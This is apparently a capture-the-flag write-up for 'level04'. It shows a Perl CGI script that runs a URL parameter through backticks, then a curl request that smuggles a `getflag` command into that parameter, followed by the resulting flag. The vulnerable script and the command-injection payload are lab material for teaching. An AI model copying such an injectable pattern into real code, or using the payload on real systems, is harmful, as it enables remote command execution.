 # level04 solve

For begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level04.pl
```

It's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level04.pl 
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param};
> print "Content-type: text/html\n\n";
> sub x {
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x"));
```

With that we can see 3 important elements :

```
- localhost:4747 -> url, so we can try to call the website with curl

- print `echo $y 2>&1\`; -> will be breakable with a code injection cause of ` character

- x(param("x")); -> parameter who can contain a value
```

Ok let's do this

```
$ curl localhost:4747?x=\`getflag\`
> ne2searoevaevoem4ov4ar8ap
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level03">previous level</a> - <a href="../../level05">next level</a>
